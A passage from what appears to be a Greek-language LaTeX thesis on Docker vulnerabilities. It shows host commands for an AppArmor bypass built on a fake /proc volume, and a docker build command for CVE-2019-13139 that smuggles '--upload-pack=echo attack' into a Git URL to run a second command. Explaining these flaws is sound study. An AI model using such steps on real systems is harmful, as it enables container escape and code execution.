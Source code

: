 \texttt{\textlatin{(host)\$ touch rootfs/proc/self/\{status,attr/exec\}}}

\texttt{\textlatin{(host)\$ touch rootfs/proc/self/fd/\{4,5\}}}

\texttt{\textlatin{(host)\$ cat Dockerfile}}

\texttt{\textlatin{FROM busybox}}

\texttt{\textlatin{ADD rootfs /}}

\texttt{\textlatin{}}

\texttt{\textlatin{VOLUME /proc}}

\texttt{\textlatin{(host)\$ docker build -t apparmor-bypass .}}

\texttt{\textlatin{(host)\$ docker run --rm -it --security-opt "apparmor=dockerdefault" apparmor-bypass}}

\texttt{\textlatin{\# container runs unconfined}}

\subsection{\textlatin{CVE–2019–13139}}

Παλαιότερες εκδόσεις από το \textlatin{Docker} 18.09.4, είχαν ένα σφάλμα όταν το
\textlatin{docker} έκανε εσφαλμένα \textlatin{parse URLs}, κάτι που επέτρεπε την
εκτέλεση κώδικα \cite{CVE-2019-13139-STAALDRAAD}. Η συμοβολοσειρά η οποία
παρείχε στο \textlatin{docker build} χωρίζεται σε ":" και "\#" για να κάνει
\textlatin{parse} την αναφορά \textlatin{Git}. Παρέχοντας ένα κακόβουλο
\textlatin{URL}, μπορούμε να πετύχουμε εκτέλεση κώδικα.


Για παράδειγμα, στην ακόλουθη εντολή \textlatin{docker build}, η εντολή
Εκτελείται η «\textlatin{echo attack}». \\

\texttt{\textlatin{(host)\$ docker build "git@github.com/meh/meh\textbackslash \#--upload-pack=echo attack;\textbackslash \#:"}}

Το \texttt{\textlatin{docker build}} εκτελεί την εντολή \textlatin{git fetch}
στο παρασκήνιο. Αλλά με την κακόβουλη εντολή \texttt{\textlatin{git fetch
--upload-pack=echo attack; git@github.com/meh/meh}} εκτελείται και η 
\textlatin{echo attack}.

\subsection{\textlatin{CVE–2019–5736}}

